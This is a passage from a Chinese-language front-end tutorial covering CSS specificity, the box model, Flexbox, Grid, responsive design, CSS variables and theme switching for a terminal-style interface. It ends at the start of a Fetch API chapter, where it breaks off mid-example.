| `!important` | `color: red !important` | 最高（慎用） |
| 内联样式 | `style="color: red"` | 1000 |
| ID 选择器 | `#header` | 100 |
| 类选择器 | `.container` | 10 |
| 属性选择器 | `[type="text"]` | 10 |
| 伪类选择器 | `:hover`, `:focus` | 10 |
| 标签选择器 | `div`, `p` | 1 |
| 伪元素选择器 | `::before`, `::after` | 1 |
| 通配符 | `*` | 0 |

### 盒模型

每个 HTML 元素都是一个"盒子"，由四层组成：



```css
/* 标准盒模型 vs 怪异盒模型 */

/* 标准盒模型（默认） */
/* width/height 只包含 content */
.standard-box {
    box-sizing: content-box;  /* 默认值 */
    width: 200px;
    padding: 20px;
    border: 2px solid #333;
    /* 实际占宽 = 200 + 20*2 + 2*2 = 244px */
}

/* 怪异盒模型（推荐） */
/* width/height 包含 content + padding + border */
.border-box {
    box-sizing: border-box;
    width: 200px;
    padding: 20px;
    border: 2px solid #333;
    /* 实际占宽 = 200px（已包含 padding 和 border） */
}

/* 全局推荐设置 */
*, *::before, *::after {
    box-sizing: border-box;
}
```

## 2.2 Flexbox 布局详解

Flexbox（弹性盒子布局）是 CSS3 最重要的布局方式之一，专门用于一维布局（行或列）。

### Flexbox 核心概念



### Flex 容器属性详解

```css
/* 创建 Flex 容器 */
.container {
    display: flex;
    
    /* 主轴方向 */
    flex-direction: row;            /* 水平排列（默认） */
    /* flex-direction: row-reverse;  /* 水平反向排列 */
    /* flex-direction: column;       /* 垂直排列 */
    /* flex-direction: column-reverse; /* 垂直反向排列 */
    
    /* 是否换行 */
    flex-wrap: nowrap;              /* 不换行（默认） */
    /* flex-wrap: wrap;              /* 换行 */
    /* flex-wrap: wrap-reverse;      /* 反向换行 */
    
    /* 简写 */
    /* flex-flow: row wrap; */
    
    /* 主轴对齐方式 */
    justify-content: flex-start;    /* 起点对齐（默认） */
    /* justify-content: flex-end;    /* 终点对齐 */
    /* justify-content: center;      /* 居中 */
    /* justify-content: space-between; /* 两端对齐 */
    /* justify-content: space-around;  /* 等间距 */
    /* justify-content: space-evenly;  /* 完全等间距 */
    
    /* 交叉轴对齐方式（单行） */
    align-items: stretch;           /* 拉伸填满（默认） */
    /* align-items: flex-start;      /* 起点对齐 */
    /* align-items: flex-end;        /* 终点对齐 */
    /* align-items: center;          /* 居中 */
    /* align-items: baseline;        /* 基线对齐 */
    
    /* 交叉轴对齐方式（多行） */
    align-content: flex-start;
    
    /* 间距 */
    gap: 10px;                      /* 行和列间距 */
    row-gap: 10px;                  /* 行间距 */
    column-gap: 20px;               /* 列间距 */
}
```

### Flexbox 对齐方式图解



### Flex 项目属性

```css
/* Flex 项目属性 */
.item {
    /* 放大比例（默认 0，不放大） */
    flex-grow: 1;    /* 占据剩余空间的 1 份 */
    
    /* 缩小比例（默认 1，等比缩小） */
    flex-shrink: 0;  /* 不缩小 */
    
    /* 初始大小 */
    flex-basis: auto; /* 根据内容决定（默认） */
    /* flex-basis: 200px; */
    /* flex-basis: 30%; */
    
    /* 简写 */
    flex: 1;           /* flex-grow: 1, flex-shrink: 1, flex-basis: 0% */
    flex: 0 0 200px;  /* 不放大不缩小，固定 200px */
    flex: auto;        /* flex-grow: 1, flex-shrink: 1, flex-basis: auto */
    flex: none;        /* flex-grow: 0, flex-shrink: 0, flex-basis: auto */
    
    /* 排列顺序（默认 0） */
    order: -1;  /* 排在最前面 */
    
    /* 单独设置交叉轴对齐 */
    align-self: center;  /* 覆盖容器的 align-items */
}
```

### Flex 布局实战：AI-CLI-Mobile 终端界面

```css
/* 终端页面布局 */
.terminal-page {
    display: flex;
    flex-direction: column;
    height: 100vh;  /* 占满整个视口高度 */
    overflow: hidden;
}

/* 顶部工具栏 */
.terminal-toolbar {
    display: flex;
    align-items: center;
    justify-content: space-between;
    padding: 8px 12px;
    background: #1e1e1e;
    border-bottom: 1px solid #333;
    flex-shrink: 0;  /* 不缩小 */
}

.toolbar-left {
    display: flex;
    align-items: center;
    gap: 8px;
}

.toolbar-right {
    display: flex;
    align-items: center;
    gap: 12px;
}

/* 终端主体区域 */
.terminal-body {
    flex: 1;  /* 占据所有剩余空间 */
    display: flex;
    overflow: hidden;
}

/* 侧边栏 */
.terminal-sidebar {
    flex: 0 0 240px;  /* 固定 240px，不放大不缩小 */
    background: #252526;
    border-right: 1px solid #333;
    overflow-y: auto;
}

/* 终端内容区 */
.terminal-content {
    flex: 1;  /* 占据剩余空间 */
    display: flex;
    flex-direction: column;
    overflow: hidden;
}

/* xterm.js 容器 */
.xterm-container {
    flex: 1;
    padding: 8px;
}

/* 输入区域 */
.terminal-input-area {
    flex-shrink: 0;
    display: flex;
    align-items: center;
    gap: 8px;
    padding: 8px 12px;
    background: #2d2d2d;
    border-top: 1px solid #333;
}

.terminal-input {
    flex: 1;
    padding: 8px 12px;
    background: #1e1e1e;
    border: 1px solid #555;
    border-radius: 4px;
    color: #fff;
    font-family: 'Fira Code', monospace;
    font-size: 14px;
}

.send-button {
    flex-shrink: 0;
    padding: 8px 16px;
}

/* 底部状态栏 */
.terminal-statusbar {
    flex-shrink: 0;
    display: flex;
    justify-content: space-between;
    padding: 4px 12px;
    background: #007acc;
    color: #fff;
    font-size: 12px;
}
```

### 常见 Flex 布局模式

```css
/* 模式1：水平垂直居中 */
.center-box {
    display: flex;
    justify-content: center;
    align-items: center;
    min-height: 100vh;
}

/* 模式2：等分三栏 */
.three-columns {
    display: flex;
    gap: 16px;
}
.three-columns > * {
    flex: 1;
}

/* 模式3：左侧固定 + 右侧自适应 */
.sidebar-layout {
    display: flex;
    gap: 16px;
}
.sidebar {
    flex: 0 0 240px;
}
.main-content {
    flex: 1;
    min-width: 0;  /* 防止内容溢出 */
}

/* 模式4：底部固定 */
.sticky-footer {
    display: flex;
    flex-direction: column;
    min-height: 100vh;
}
.page-content {
    flex: 1;
}
.page-footer {
    flex-shrink: 0;
}

/* 模式5：卡片等高 */
.card-grid {
    display: flex;
    flex-wrap: wrap;
    gap: 16px;
}
.card {
    flex: 1 1 300px;
    display: flex;
    flex-direction: column;
}
.card-content {
    flex: 1;  /* 内容区撑开，按钮底部对齐 */
}
```

### Flexbox 完整布局示意图



## 2.3 Grid 布局详解

CSS Grid 是二维布局系统，可以同时控制行和列。

### Grid 基础概念



### Grid 容器属性

```css
/* 创建 Grid 容器 */
.grid-container {
    display: grid;
    
    /* 定义列 */
    grid-template-columns: 200px 1fr 200px;  /* 固定 自适应 固定 */
    /* grid-template-columns: repeat(3, 1fr);  /* 三等分 */
    /* grid-template-columns: repeat(auto-fit, minmax(200px, 1fr)); /* 自适应列数 */
    
    /* 定义行 */
    grid-template-rows: 60px 1fr 40px;  /* 头部 内容 底部 */
    /* grid-template-rows: auto;  /* 根据内容自动 */
    
    /* 间距 */
    gap: 16px;
    row-gap: 16px;
    column-gap: 20px;
    
    /* 命名区域（非常强大！） */
    grid-template-areas:
        "header  header  header"
        "sidebar content aside"
        "footer  footer  footer";
    
    /* 最小高度 */
    min-height: 100vh;
}

/* 使用命名区域放置项目 */
.header   { grid-area: header; }
.sidebar  { grid-area: sidebar; }
.content  { grid-area: content; }
.aside    { grid-area: aside; }
.footer   { grid-area: footer; }
```

### Grid 单位详解

| 单位 | 含义 | 示例 |
|------|------|------|
| `px` | 固定像素 | `200px` |
| `%` | 百分比 | `50%` |
| `fr` | 弹性比例单位 | `1fr 2fr`（1:2 分配） |
| `auto` | 自动（根据内容） | `auto` |
| `minmax()` | 最小最大范围 | `minmax(200px, 1fr)` |
| `repeat()` | 重复模式 | `repeat(3, 1fr)` |
| `min-content` | 最小内容宽度 | `min-content` |
| `max-content` | 最大内容宽度 | `max-content` |

### Grid 项目放置

```css
/* 方式1：使用行号 */
.item1 {
    grid-column: 1 / 3;  /* 从第1条列线到第3条列线（跨2列） */
    grid-row: 1 / 2;     /* 从第1条行线到第2条行线 */
}

/* 方式2：使用 span */
.item2 {
    grid-column: 1 / span 2;  /* 从当前位置跨2列 */
    grid-row: span 3;          /* 跨3行 */
}

/* 方式3：使用命名区域 */
.item3 {
    grid-area: content;  /* 放到名为 content 的区域 */
}

/* 方式4：使用 -1 表示最后一行/列 */
.item4 {
    grid-column: 1 / -1;  /* 占满整行 */
}
```

### Grid 自动放置

```css
/* 自动填充：根据容器宽度自动决定列数 */
.auto-grid {
    display: grid;
    grid-template-columns: repeat(auto-fill, minmax(200px, 1fr));
    gap: 16px;
}

/* auto-fill vs auto-fit */
/* auto-fill：尽量多创建列，即使有空白 */
/* auto-fit：折叠空白列，让内容拉伸填满 */

/* 自动放置规则 */
.placement-grid {
    display: grid;
    grid-template-columns: repeat(4, 1fr);
    grid-auto-rows: 100px;  /* 自动行高 */
    grid-auto-flow: row;     /* 按行自动放置（默认） */
    /* grid-auto-flow: column; /* 按列自动放置 */
    /* grid-auto-flow: dense;  /* 紧凑填充（可能打乱顺序） */
}
```

### Grid vs Flexbox 对比

| 特性 | Grid | Flexbox |
|------|------|---------|
| **维度** | 二维（行 + 列） | 一维（行 或 列） |
| **布局方向** | 行和列同时控制 | 一个方向为主 |
| **内容 vs 布局** | 布局优先（先定义网格，再放内容） | 内容优先（根据内容决定布局） |
| **项目对齐** | 强大的二维对齐 | 一维对齐 |
| **重叠** | 容易实现重叠 | 需要 position 辅助 |
| **适用场景** | 整体页面布局、复杂网格 | 导航栏、卡片列表、居中 |
| **浏览器支持** | 现代浏览器 | 广泛支持 |

### 实战：Dashboard 布局

```css
/* AI-CLI-Mobile Dashboard 布局 */
.dashboard {
    display: grid;
    grid-template-columns: 240px 1fr;
    grid-template-rows: 64px 1fr;
    grid-template-areas:
        "sidebar header"
        "sidebar main";
    height: 100vh;
}

.dash-header {
    grid-area: header;
    display: flex;
    align-items: center;
    justify-content: space-between;
    padding: 0 24px;
    background: #fff;
    border-bottom: 1px solid #e5e5e5;
}

.dash-sidebar {
    grid-area: sidebar;
    background: #1e1e1e;
    padding: 16px;
    overflow-y: auto;
}

.dash-main {
    grid-area: main;
    padding: 24px;
    overflow-y: auto;
}

/* 主内容区的卡片网格 */
.stats-grid {
    display: grid;
    grid-template-columns: repeat(auto-fit, minmax(240px, 1fr));
    gap: 16px;
    margin-bottom: 24px;
}

.stat-card {
    background: #fff;
    border-radius: 8px;
    padding: 20px;
    box-shadow: 0 1px 3px rgba(0, 0, 0, 0.1);
}

/* 终端面板网格 */
.terminal-grid {
    display: grid;
    grid-template-columns: repeat(2, 1fr);
    grid-template-rows: repeat(2, 1fr);
    gap: 16px;
    height: calc(100vh - 300px);
}

.terminal-panel {
    background: #1e1e1e;
    border-radius: 8px;
    overflow: hidden;
    display: flex;
    flex-direction: column;
}

.panel-header {
    flex-shrink: 0;
    padding: 8px 12px;
    background: #2d2d2d;
    border-bottom: 1px solid #444;
}

.panel-content {
    flex: 1;
    padding: 8px;
    overflow: hidden;
}
```

## 2.4 响应式设计

### 什么是响应式设计？

响应式设计（Responsive Design）让网页在不同设备和屏幕尺寸上都能良好显示。



### 视口（Viewport）

```html
<!-- 必须设置的 meta 标签 -->
<meta name="viewport" content="width=device-width, initial-scale=1.0">
```

| 属性 | 含义 |
|------|------|
| `width=device-width` | 视口宽度 = 设备宽度 |
| `initial-scale=1.0` | 初始缩放比例为 1 |
| `minimum-scale=1.0` | 最小缩放比例 |
| `maximum-scale=1.0` | 最大缩放比例 |
| `user-scalable=no` | 禁止用户缩放（不推荐） |

### 媒体查询（Media Queries）

```css
/* 基础：移动优先（Mobile First） */
/* 默认样式 = 手机样式 */
.container {
    padding: 16px;
}

.grid {
    display: grid;
    grid-template-columns: 1fr;
    gap: 16px;
}

/* 平板（>= 768px） */
@media (min-width: 768px) {
    .container {
        padding: 24px;
    }
    
    .grid {
        grid-template-columns: repeat(2, 1fr);
    }
}

/* 桌面（>= 1024px） */
@media (min-width: 1024px) {
    .container {
        max-width: 1200px;
        margin: 0 auto;
        padding: 32px;
    }
    
    .grid {
        grid-template-columns: repeat(3, 1fr);
    }
}

/* 大屏（>= 1440px） */
@media (min-width: 1440px) {
    .container {
        max-width: 1400px;
    }
    
    .grid {
        grid-template-columns: repeat(4, 1fr);
    }
}

/* 暗色模式 */
@media (prefers-color-scheme: dark) {
    :root {
        --bg-color: #1e1e1e;
        --text-color: #e5e5e5;
    }
}

/* 减少动画 */
@media (prefers-reduced-motion: reduce) {
    * {
        animation: none !important;
        transition: none !important;
    }
}

/* 触摸设备 */
@media (hover: none) and (pointer: coarse) {
    .btn {
        min-height: 44px;  /* 触摸友好的最小尺寸 */
        min-width: 44px;
    }
}

/* 横屏/竖屏 */
@media (orientation: landscape) {
    .terminal-layout {
        flex-direction: row;
    }
}

@media (orientation: portrait) {
    .terminal-layout {
        flex-direction: column;
    }
}
```

### CSS 单位详解

| 单位 | 相对基准 | 用途 | 示例 |
|------|---------|------|------|
| `px` | 固定像素 | 精确控制 | `16px` |
| `%` | 父元素 | 比例布局 | `width: 50%` |
| `em` | 父元素字体大小 | 字体相关 | `font-size: 1.2em` |
| `rem` | 根元素字体大小 | 响应式字体 | `font-size: 1rem` |
| `vw` | 视口宽度 1% | 全屏布局 | `width: 100vw` |
| `vh` | 视口高度 1% | 全屏布局 | `height: 100vh` |
| `vmin` | vw 和 vh 中较小的 | 方形适配 | `font-size: 5vmin` |
| `vmax` | vw 和 vh 中较大的 | 大屏适配 | `font-size: 5vmax` |
| `dvh` | 动态视口高度 | 移动端全屏 | `height: 100dvh` |
| `svh` | 小视口高度 | 移动端安全区 | `height: 100svh` |
| `lvh` | 大视口高度 | 移动端最大高度 | `height: 100lvh` |
| `ch` | 字符 "0" 的宽度 | 文本宽度 | `max-width: 80ch` |
| `ex` | 小写 "x" 的高度 | 文本高度 | - |
| `cap` | 大写字母高度 | 标题对齐 | - |

### 移动端视口单位问题

```css
/* 
 * 移动端 100vh 的问题：
 * 移动浏览器的地址栏会收缩，导致 100vh 实际上大于可见区域。
 * 解决方案：
 */

/* 方案1：使用 dvh（动态视口高度）—— 推荐 */
.full-height {
    height: 100dvh;
}

/* 方案2：使用 JavaScript 设置 CSS 变量 */
.full-height-fallback {
    height: 100vh;  /* 回退 */
    height: calc(var(--vh, 1vh) * 100);  /* JS 设置的变量 */
}

// JavaScript
function setVH() {
    const vh = window.innerHeight * 0.01;
    document.documentElement.style.setProperty('--vh', `${vh}px`);
}
window.addEventListener('resize', setVH);
setVH();

/* 方案3：使用 svh + lvh */
.full-height-safe {
    height: 100svh;  /* 最小视口（地址栏展开时） */
    min-height: 100svh;
    max-height: 100lvh;  /* 最大视口（地址栏收起时） */
}
```

### 响应式设计流程图



## 2.5 CSS 变量与主题切换

### CSS 自定义属性（变量）

```css
/* 定义 CSS 变量（通常在 :root 上） */
:root {
    /* 颜色系统 */
    --color-primary: #3498db;
    --color-primary-dark: #2980b9;
    --color-primary-light: #5dade2;
    
    --color-success: #2ecc71;
    --color-warning: #f39c12;
    --color-danger: #e74c3c;
    --color-info: #17a2b8;
    
    /* 中性色 */
    --color-white: #ffffff;
    --color-gray-100: #f8f9fa;
    --color-gray-200: #e9ecef;
    --color-gray-300: #dee2e6;
    --color-gray-400: #ced4da;
    --color-gray-500: #adb5bd;
    --color-gray-600: #6c757d;
    --color-gray-700: #495057;
    --color-gray-800: #343a40;
    --color-gray-900: #212529;
    --color-black: #000000;
    
    /* 语义化颜色 */
    --bg-primary: var(--color-white);
    --bg-secondary: var(--color-gray-100);
    --text-primary: var(--color-gray-900);
    --text-secondary: var(--color-gray-600);
    --border-color: var(--color-gray-300);
    
    /* 字体 */
    --font-sans: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, "Noto Sans SC", sans-serif;
    --font-mono: "Fira Code", "SF Mono", Consolas, monospace;
    
    /* 字号 */
    --text-xs: 0.75rem;    /* 12px */
    --text-sm: 0.875rem;   /* 14px */
    --text-base: 1rem;     /* 16px */
    --text-lg: 1.125rem;   /* 18px */
    --text-xl: 1.25rem;    /* 20px */
    --text-2xl: 1.5rem;    /* 24px */
    --text-3xl: 1.875rem;  /* 30px */
    
    /* 间距 */
    --space-1: 0.25rem;    /* 4px */
    --space-2: 0.5rem;     /* 8px */
    --space-3: 0.75rem;    /* 12px */
    --space-4: 1rem;       /* 16px */
    --space-5: 1.25rem;    /* 20px */
    --space-6: 1.5rem;     /* 24px */
    --space-8: 2rem;       /* 32px */
    --space-10: 2.5rem;    /* 40px */
    --space-12: 3rem;      /* 48px */
    
    /* 圆角 */
    --radius-sm: 4px;
    --radius-md: 8px;
    --radius-lg: 12px;
    --radius-xl: 16px;
    --radius-full: 9999px;
    
    /* 阴影 */
    --shadow-sm: 0 1px 2px rgba(0, 0, 0, 0.05);
    --shadow-md: 0 4px 6px rgba(0, 0, 0, 0.1);
    --shadow-lg: 0 10px 15px rgba(0, 0, 0, 0.1);
    --shadow-xl: 0 20px 25px rgba(0, 0, 0, 0.15);
    
    /* 动画 */
    --transition-fast: 150ms ease;
    --transition-normal: 250ms ease;
    --transition-slow: 350ms ease;
    
    /* 层级 */
    --z-dropdown: 100;
    --z-modal: 200;
    --z-toast: 300;
    --z-tooltip: 400;
}

/* 使用变量 */
.btn-primary {
    background-color: var(--color-primary);
    color: var(--color-white);
    padding: var(--space-2) var(--space-4);
    border-radius: var(--radius-md);
    font-family: var(--font-sans);
    font-size: var(--text-sm);
    box-shadow: var(--shadow-sm);
    transition: all var(--transition-fast);
}

.btn-primary:hover {
    background-color: var(--color-primary-dark);
    box-shadow: var(--shadow-md);
}
```

### 主题切换实现

```css
/* 深色主题 */
[data-theme="dark"] {
    --bg-primary: var(--color-gray-900);
    --bg-secondary: var(--color-gray-800);
    --text-primary: var(--color-gray-100);
    --text-secondary: var(--color-gray-400);
    --border-color: var(--color-gray-700);
    
    --color-primary: #5dade2;
    --color-primary-dark: #3498db;
}

/* 终端主题 */
[data-theme="terminal"] {
    --bg-primary: #0c0c0c;
    --bg-secondary: #1e1e1e;
    --text-primary: #cccccc;
    --text-secondary: #808080;
    --border-color: #333333;
    
    --color-primary: #569cd6;
    --color-success: #6a9955;
    --color-warning: #dcdcaa;
    --color-danger: #f44747;
}

/* 组件使用主题变量 */
body {
    background-color: var(--bg-primary);
    color: var(--text-primary);
    transition: background-color var(--transition-normal),
                color var(--transition-normal);
}

.card {
    background-color: var(--bg-secondary);
    border: 1px solid var(--border-color);
    border-radius: var(--radius-lg);
}

.text-secondary {
    color: var(--text-secondary);
}
```

### JavaScript 主题切换

```typescript
// 主题管理器
type Theme = 'light' | 'dark' | 'terminal' | 'auto';

class ThemeManager {
    private currentTheme: Theme;
    private mediaQuery: MediaQueryList;
    
    constructor() {
        // 从本地存储恢复主题
        this.currentTheme = (localStorage.getItem('theme') as Theme) || 'auto';
        this.mediaQuery = window.matchMedia('(prefers-color-scheme: dark)');
        
        // 监听系统主题变化
        this.mediaQuery.addEventListener('change', () => {
            if (this.currentTheme === 'auto') {
                this.applyTheme();
            }
        });
        
        this.applyTheme();
    }
    
    setTheme(theme: Theme) {
        this.currentTheme = theme;
        localStorage.setItem('theme', theme);
        this.applyTheme();
    }
    
    private applyTheme() {
        const root = document.documentElement;
        
        if (this.currentTheme === 'auto') {
            // 跟随系统
            root.removeAttribute('data-theme');
            const prefersDark = this.mediaQuery.matches;
            root.setAttribute('data-theme', prefersDark ? 'dark' : 'light');
        } else {
            root.setAttribute('data-theme', this.currentTheme);
        }
        
        // 更新 meta 标签（状态栏颜色）
        const metaTheme = document.querySelector('meta[name="theme-color"]');
        if (metaTheme) {
            const isDark = root.getAttribute('data-theme') === 'dark' || 
                           root.getAttribute('data-theme') === 'terminal';
            metaTheme.setAttribute('content', isDark ? '#1e1e1e' : '#ffffff');
        }
    }
    
    get effectiveTheme(): string {
        if (this.currentTheme === 'auto') {
            return this.mediaQuery.matches ? 'dark' : 'light';
        }
        return this.currentTheme;
    }
}

// 使用
const themeManager = new ThemeManager();

// 切换主题
document.getElementById('theme-selector')?.addEventListener('change', (e) => {
    const select = e.target as HTMLSelectElement;
    themeManager.setTheme(select.value as Theme);
});
```

### CSS 变量的计算与函数

```css
/* CSS 变量结合 calc() */
.container {
    --sidebar-width: 240px;
    --gap: 16px;
    
    width: calc(100% - var(--sidebar-width) - var(--gap));
}

/* CSS 变量结合 clamp()（响应式字体） */
.heading {
    /* 最小 1.5rem，首选 4vw，最大 3rem */
    font-size: clamp(1.5rem, 4vw, 3rem);
}

/* CSS 变量结合 min()/max() */
.card {
    /* 取两者中较小的值 */
    width: min(90%, 600px);
    
    /* 取两者中较大的值 */
    padding: max(16px, 2vw);
}

/* CSS 变量作为条件 */
.conditional {
    /* 使用 CSS 变量控制显示 */
    display: var(--show-sidebar, flex);
}

/* 运行时修改变量 */
/* JavaScript: */
document.documentElement.style.setProperty('--sidebar-width', '200px');
```

---

# 第三章：浏览器 API

## 3.1 Fetch API

Fetch API 是现代的网络请求接口，用于替代传统的 XMLHttpRequest。

### Fetch 基础用法

```javascript
// 最基本的 GET 请求
fetch('https://api.example.com/data')
    .then(response => {
        // 检查响应状态
        if (!response.ok) {
            throw new Error(`HTTP 错误：${response.status}`);
        }
        return response.json();  // 解析 JSON
    })
    .then(data => {
        console.log('获取的数据：', data);
    })
    .catch(error => {
        console.error('请求失败：', error);
    });
```

### 使用 async/await

```javascript
// 推荐：使用 async/await
async function fetchData() {
    try {
        const response = await fetch('https://api.example.com/data');
        
        if (!response.ok) {
            throw new Error(`HTTP 错误：${response.status}`);
        }
        
        const data = await response.json();
        console.log('获取的数据：', data);
        return data;
    } catch (error) {
        console.error('请求失败：', error);
        throw error;
    }
}
```

### 请求配置

```javascript
// 完整的请求配置
const response = await fetch('https://api.example.com/users', {
    method: 'POST',                    // 请求方法
